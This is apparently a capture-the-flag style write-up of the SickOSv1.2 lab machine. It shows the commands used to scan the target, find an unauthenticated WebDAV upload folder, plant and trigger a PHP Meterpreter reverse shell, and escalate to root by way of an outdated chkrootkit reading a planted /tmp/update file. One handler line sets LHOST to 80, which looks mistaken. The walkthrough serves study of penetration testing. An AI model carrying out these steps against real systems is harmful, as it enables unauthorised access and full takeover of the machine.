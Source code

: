 +++
menu = "posts"
date = "2016-12-20T23:45:50-05:00"
title = "B2R: SickOSv1.2"

+++



## Executive Summary
This machine had an unprotected folder which allowed uploading of malicious PHP code which could then be
executed remotely. An attacker could then create an unprivileged shell on the victim machine and begin to
explore the system for additional vulnerabilities which could lead to a full compromise. During the
exploration, an outdated version of `chkrootkit` was found. By exploiting a known vulnerability in the way
`chkrootkit` parses arguments, an attacker could create a malicious file that would later be run by
`chkrootkit` as a fully privileged user.

## Tools used
  - nmap - discovery
  - uniscan - web application scanner
  - metasploit - exploit framework
  - msfvenom - payload generation
  - local-linux-enum script - enumeration

## Proof of Concept

In order to cut down on typing, once the IP of the victim computer is discovered, it can be added to the
`/etc/hosts`.

~~~bash.prettyprint
echo "192.168.1.188 vm" >> /etc/hosts
~~~

We begin with scanning the victim's machine and find ports 80 and 22.

~~~bash.prettyprint
❯❯ nmap -p - -A vm | tee nmap.scan
~~~

![](https://i.imgur.com/jQr872J.png)


Navigating to the page and checking its source code reveals nothing

![](https://i.imgur.com/1Oigcfa.png)

Running `uniscan`, a folder named `test` is discovered

~~~bash.prettyprint
❯❯ uniscan -qweds -u http://vm/ 
~~~

![](https://i.imgur.com/wU5Wp2v.png)

The listing appeared to be empty but further examination of the `/test` path revealed that it responded to
more than just HTTP methods. `COPY` and `MOVE` seemed to indicate WebDAV.

~~~bash.prettyprint
❯❯ curl -vX OPTIONS vm/test
~~~

![](https://i.imgur.com/6GKZJbc.png)

This path requires no authentication and thus allows attackers to upload files to the web server. 

![](https://i.imgur.com/gSzuoHZ.png)


Verifying successful upload:

![](https://i.imgur.com/CpTqKyO.png)

Having uploaded the reverse shell, the Meterpreter handler is constructed

~~~bash.prettyprint
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 80
run -j
~~~

...and the payload is activated.

~~~bash.prettyprint
curl http://vm/test/sshhh.php
~~~


![](https://i.imgur.com/XQ3a9Q4.png)

Once a shell has been established on the system, an enumeration script reveals what additional
vulnerabilities might lead to a full compromise.


The installed version of `chkrootkit` is outdated and vulnerable to a code execution exploit.

![](https://i.imgur.com/EJSijYp.png)

The ExploitDB gives the following description:

![](https://i.imgur.com/uVIlbic.png)

Using Metasploit, we create another handler and payload, using the `chkrootkit` module. This module will
create/overwrite the `/tmp/update` file with the reverse tcp shell of your choosing. The next time
`chkrootkit` is run, this update file will connect back to the attacker computer designated in the payload.

![](https://i.imgur.com/9GKQfrW.png)
